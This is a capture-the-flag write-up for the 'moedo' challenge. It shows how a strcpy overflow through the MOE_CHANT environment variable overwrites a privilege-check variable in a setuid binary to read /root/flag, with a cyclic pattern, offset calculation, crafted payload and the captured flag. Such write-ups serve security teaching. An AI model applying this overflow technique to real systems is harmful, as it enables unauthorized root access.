

# moedo

by vulnx

## The Challenge



## The Solution

We are give a *sandboxed Alpine linux* to connect to via telnet. We also have credentials for a `mashiro` user.

After logging in, it tells us that the flag is located at `/root/flag` and our task simple, **read it**.

Obviously something like `cat /root/flag` doesn't work because we don't have the permission to do so. And `sudo` doesn't exist here, in fact the challenge tells us that they have developed an alternative called `moedo`.

So if we try using `moedo`:

```bash
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 1001 - Moe: 0
You're not moe enough!
moehost:~$
```

Hmm...maybe its time to view the source code which they provided:

```c
    if (moeness != MOE_ENOUGH)
    {
        fputs("You're not moe enough!\n", stderr);
        return 1;
    }

    if (setuid(0) != 0)
    {
        perror("setuid() failed");
        return 1;
    }
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }
```

This precisely tells us that our `cat` command will be executed with elevated privileges if we can bypass the `moeness != MOE_ENOUGH` if-statement.

`MOE_ENOUGH` is explicitly defined as `0x30e`. And our `moeness` variable is calculated via the `check_moe()` function. The function itself doesn't seem to have any noticable vulnerabilities ( *at least for me* ). So I looked at the main function has found the bug:

```c
if (custom_chant)
 strcpy(chant, custom_chant)

```

The classic `strcpy` vulnerability which allows us to overflow local variables in the `main()` method. I then generated cyclic pattern using `MsF` for 100 bytes:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

since 100 bytes are sure to overflow the simple `chant[]` buffer:

```c
char chant[] = "Moe Moe Kyun!";
```

Then I set those bytes as `MOE_CHANT` env variable and run the program:

```bash
moehost:~$ export MOE_CHANT="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
moehost:~$ moedo "cat /root/flag"
UID: 1648439650 - GID: 1093689921 - Moe: 39614138
You're not moe enough!
Segmentation fault
moehost:~$ 
```

Here we see a seg fault, which is a good sign. But also the content in the `moeness` variable = `39614138`. This can be used to calculate the offset for overflowing this variable:

```bash
$ msf-pattern_offset -q 39614138                                                                                    
[*] Exact match at offset 26
$ 
```

To test it, we will set `MOE_CHANT` env variable as `"A" * 26 + "BCDE` and run the program:

```bash
moehost:~$ export MOE_CHANT="AAAAAAAAAAAAAAAAAAAAAAAAAABCDE"
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 768 - Moe: 45444342
You're not moe enough!
moehost:~$
```

Great we can successfully control the `moeness` variable. Now let's replace the `BCDE` in env variable as 0x30e ( in little endian format ) and try again:

```bash
moehost:~$ moedo cat /root/flag
UID: 1001 - GID: 1001 - Moe: 30e
AAAAAAAAAAAAAAAAAAAAAAAAAA
uctf{m45h1r0_d1dn7_61v3_up}
moehost:~$
```

BOOM! We got the flag

## The Flag

`uctf{m45h1r0_d1dn7_61v3_up}`
